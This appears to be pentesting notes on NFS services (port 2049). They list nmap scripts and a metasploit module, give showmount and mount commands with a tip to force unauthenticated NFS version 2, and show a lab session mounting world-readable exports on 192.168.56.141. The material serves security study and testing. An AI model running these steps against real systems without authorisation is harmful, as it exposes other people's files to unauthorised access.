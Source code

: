 [2049 - Pentesting NFS Service](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)

[**#Useful nmap scripts**]

```
nfs-ls #List NFS exports and check permissions
nfs-showmount #Like showmount -e
nfs-statfs #Disk statistics and info from NFS share
```

[**#Useful metasploit modules**]

```
scanner/nfs/nfsmount #Scan NFS mounts and list permissions
```

[**#Mounting**]

To know **which folder** has the server **available** to mount you an ask it using:
```
showmount -e <IP>
```
Then mount it using:
```
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
```
You should specify to **use version 2** because it doesn't have **any** **authentication** or **authorization**. **Example:**
```
mkdir /mnt/new_back
mount -t nfs [-o vers=2] 10.12.0.150:/backup /mnt/new_back -o nolock
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`showmount -e 192.168.56.141`:
```
Export list for 192.168.56.141:
/images/dev * ←
/images     * ←
```

`mkdir ./nfs-images`

`mkdir ./nfs-images-dev`

`mount -t nfs 192.168.56.141:images ./nfs-images -o nolock`

`mount -t nfs 192.168.56.141:/images/dev ./nfs-images-dev -o nolock`

`cd ./nfs-images`

`ls -alps ./`:
```                                                              
total 16
4 drwxrwxrwx  4 nVbla root 4096 Mar 10  2021 ./
4 drwx------ 37 kali  kali 4096 Oct 15 16:54 ../
4 drwxrwxrwx  3 nVbla root 4096 Mar 10  2021 dev/
0 -rwxrwxrwx  1 nVbla root    0 Mar 10  2021 .mntcheck
4 drwxrwxrwx  2 nVbla root 4096 Mar 10  2021 postdownloadscripts/
```
